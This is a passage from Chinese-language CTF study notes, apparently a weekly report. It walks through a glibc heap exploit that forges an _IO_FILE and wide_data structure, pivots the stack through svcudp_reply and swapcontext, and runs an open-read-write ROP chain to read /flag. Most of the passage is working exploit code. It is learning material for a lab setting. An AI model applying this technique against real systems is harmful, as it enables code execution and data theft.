 
然后我们在chunk0里开始构造\_IO\_FILE:

```python
fake_file = b''
fake_file = p64(0)+p64(1)
fake_file = fake_file.ljust(0x38,b'\x00')+p64(add_1)#r12会被修改成这个地址,随后程序会将rax设为这个地址+0x18处的值.
fake_file = fake_file.ljust(0x78,b'\x00')+p64(wide_data_add)#不知道为什么要把IO_lock_t *_lock设为这个地址...也许只是因为它可写?
fake_file = fake_file.ljust(0x90,b'\x00')+p64(wide_data_add) #wide_data会指向这个地址
fake_file = fake_file.ljust(0xc8,b'\x00')+p64(IO_wfile_jumps)
edit_c(0,fake_file)
```

接下来是伪造wide_data,以及控制rsp:

```python
rop_add=chunk0_add+0x510+0x520+0x10

payload = b''
payload = payload.ljust(0x58,b'\x00')+p64(svcudp_reply)
payload = payload.ljust(0xa0,b'\x00')+p64(wide_data_add+0x120-0x28)+p64(ret_add) #rax会被写为前面的那个值 (另外,这里的这个ret似乎是不必要的)
payload = payload.ljust(0xc0,b'\x00')+p64(wide_data_add)+p64(0)*3+p64(wide_data_add-0x10)+p64(0)
payload +=b'\x00'*0x28+p64(wide_data_add)
payload +=p64(swapcontext) #程序会调用这个地址
payload = payload.ljust(0x128,b'\x00')+p64(wide_data_add+0x130)+p64(ret_add)+p64(rsp_add)+p64(rop_add)#rsp会被设为p64(wide_data_add+0x130) (如果不需要orw的话,可以直接在这设置system的rop链.不过这样的话可能需要额外的ret调整对齐)
payload = payload.ljust(0x168,b'\x00')+p64(wide_data_add)
edit_c(1,payload)
```

这样,程序的rsp指针就会被我们调整到由我们控制的rop_add处.

最后就是orw:

```python
open_add=libc.sym["open"]+libc_base
read_add=libc.sym["read"]+libc_base
write_add=libc.sym["write"]+libc_base
rop=p64(rdi_add)+p64(rop_add+0x200)+p64(rsi_add)+p64(0)+p64(open_add)+p64(rdi_add)+p64(3)+p64(rsi_add)+p64(rop_add+0x220)+p64(rbp_add)+p64(rop_add+0x60)+p64(rdx_add)+p64(0x100)+p64(read_add)+p64(rdi_add)+p64(1)+p64(rsi_add)+p64(rop_add+0x220)+p64(rbp_add)+p64(rop_add+0xa8)+p64(rdx_add)+p64(0x100)+p64(write_add)
rop=rop.ljust(0x200,b"\x00")+b"/flag"
edit_c(2,rop)
```

成功打通线下.

哦对,在glibc2.35的时候还有更方便的setcontext,下次把这玩意看一下.

![hoa22](C:\Users\POI\Desktop\周报\周报10\hoa22.png)

##### 6:格式化字符串漏洞的修复

首先,假设我们通过审计发现了一个格式化字符串漏洞:
